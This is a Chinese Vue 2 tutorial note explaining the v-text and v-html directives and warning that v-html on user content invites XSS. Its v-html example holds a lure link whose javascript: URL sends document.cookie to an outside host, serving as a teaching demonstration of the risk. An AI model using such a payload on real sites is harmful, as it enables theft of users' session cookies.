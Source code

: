 ### 内置指令

#### v-text

向其所在的节点中渲染文本内容

与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会

```javascript
<div id="root">
    <div>你好，{{name}}</div>
    <div v-text="name"></div>
    <div v-text="str"></div>
  </div>
</body>
<script type="text/javascript">
  Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。
  new Vue({
    el: "#root",
    data: {
      name: "尚硅谷",
      str: "<h3>你好啊！</h3>",
    },
  });
</script>
```

#### v-html

向指定节点中渲染包含html结构的内容

与插值语法的区别：

​	(1).v-html会替换掉节点中所有的内容，{{xx}}则不会。

​	(2).v-html可以识别html结构。*

**注意：**

​    (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

​    (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上

```javascript
<div id="root">
  <div>你好，{{name}}</div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>
<script type="text/javascript">
  Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示
  new Vue({
    el: "#root",
    data: {
      name: "尚硅谷",
      str: "<h3>你好啊！</h3>",
        str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
      },
    });
</script>
```
